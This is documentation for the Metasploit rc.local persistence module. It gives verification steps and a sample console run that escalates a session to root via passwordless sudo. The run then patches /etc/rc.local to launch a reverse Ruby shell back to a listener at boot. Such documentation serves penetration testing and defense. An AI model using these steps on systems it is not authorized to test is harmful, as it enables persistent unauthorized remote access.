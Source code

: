 ## rc.local Persistence

This module patches `/etc/rc.local` in order to launch a payload upon reboot.

> Sometimes `/etc/rc.local` is run when the network is not yet on, make sure your payload won't quit if that's the case.


### Verification

1. Exploit a box and get a **root** session (tip: try `post/multi/manage/sudo`)
2. `use exploit/linux/local/rc_local_persistence`
3. `set SESSION <session>`
4. `set PAYLOAD <payload>`
5. `set LHOST <lhost>`
6. `exploit`


### Sample run

#### Escalate the session if needed

```
msf5 exploit(linux/local/rc_local_persistence) > use post/multi/manage/sudo 
msf5 post(multi/manage/sudo) > set session 3
session => 3
msf5 post(multi/manage/sudo) > run

[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] No password available, trying a passwordless sudo.
[+] SUDO: Root shell secured.
[*] Post module execution completed
```

#### Persist

```
msf5 post(multi/manage/sudo) > use exploit/linux/local/rc_local_persistence
msf5 exploit(multi/handler) > set payload cmd/unix/reverse_ruby
payload => cmd/unix/reverse_ruby
msf5 exploit(linux/local/rc_local_persistence) > set LHOST 192.168.0.41
LHOST => 192.168.0.41`
msf5 exploit(linux/local/rc_local_persistence) > run

[*] Reading /etc/rc.local
[*] Patching /etc/rc.local
[*] Max line length is 65537
[*] Writing 650 bytes in 1 chunks of 2251 bytes (octal-encoded), using printf
```
